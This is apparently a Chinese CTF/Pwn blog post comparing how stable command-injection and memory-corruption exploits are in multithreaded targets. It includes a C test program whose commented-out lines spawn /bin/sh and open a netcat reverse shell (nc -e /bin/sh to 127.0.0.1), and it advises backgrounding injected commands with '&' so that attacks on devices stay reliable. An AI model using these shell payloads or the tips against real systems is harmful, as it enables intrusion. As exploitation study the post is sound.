```yaml
---
title: Getshell稳定：命令注入 > 内存破坏
date: 2020-12-15 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 不要瞧不起命令注入，因为你不得不承认，命令注入型漏洞就是要比内存破坏型漏洞要稳。在实际的攻击中，我们发现的漏洞代码的运行实体可能是单蹦儿的一个进程，也可能是某个进程的一个线程。如果攻击发生在某个线程中，对其他线程，以及线程所属的进程会不有影响呢？在这种情况下，内存破坏漏洞的表现怎么样呢？

使用如下测试代码，每次可以打开其中一个注释：

```
➜  gcc test.c -lpthread -o test && ./test
```

```c
#include <stdio.h>
#include <pthread.h>
#include <unistd.h>
#include <stdlib.h>

void *thread1(void *arg){
//    system("/bin/sh");
//    system("/bin/sh &");
//    system("nc -e /bin/sh 127.0.0.1 8888");
//    system("nc -e /bin/sh 127.0.0.1 8888 &")
    while(1){
        printf("thread1         is running\n");
        sleep(1);
    }
}

void *thread2(void *arg){
//    execve("/bin/sh",NULL,NULL);
    while(1){
        printf("thread2         is running\n");
        sleep(1);
    }
}

int main(){
    getchar();
    pthread_t thid1,thid2;
    pthread_create(&thid1,NULL,(void*)thread1,NULL);
    pthread_create(&thid2,NULL,(void*)thread2,NULL);
//    int a = *(int *)0;
    while(1){
        printf("main thread     is running\n");
        sleep(1);
    }
    return 0;
}
```


1. 内存破坏无论发生在哪个线程中，若触发SIGSEGV，整个进程就会崩溃，并且一般程序不会注册SIGSEGV的信号处理函数
2. system函数命令注入，可能会使得被攻击的线程卡住，其他线程正常运行，因为system函数会等待其执行命令的返回。

在实际攻击中，我们发现用命令注入的漏洞攻击某设备的某个进程，无论我的exp是否有失误，设备不用重启，漏洞进程不会被打崩溃，也不会卡死。（这事在Web手看起来不是理所当然的么！）

至于原因当然和Web手攻击的情景是一样的，就像apache，会为连进来的请求建立新的进程。或者像CTF中Pwn题的部署方式，即socat和xinetd。分析发现，我们的每次攻击都是在目标进程新启动的线程中触发的，所以大不了就是这个线程卡死，再次攻击又是一个新的线程。并且开发在写线程的时候，为的就是卡死没事，这种情景在网络数据处理的时候会很常见。所以为了避免system函数卡死，拼接进去的命令注入可以让其在后台运行(&)，这样system函数即可马上返回，也不影响被攻击的线程。

但是如果漏洞类型是内存破坏漏洞，即使他出现在某个线程里，只要你稍不留神，触发了SIGSEGV，整个进程就完蛋了。如果该进程没有守护进程让他再次等待被你攻击，那也就只有重启设备了。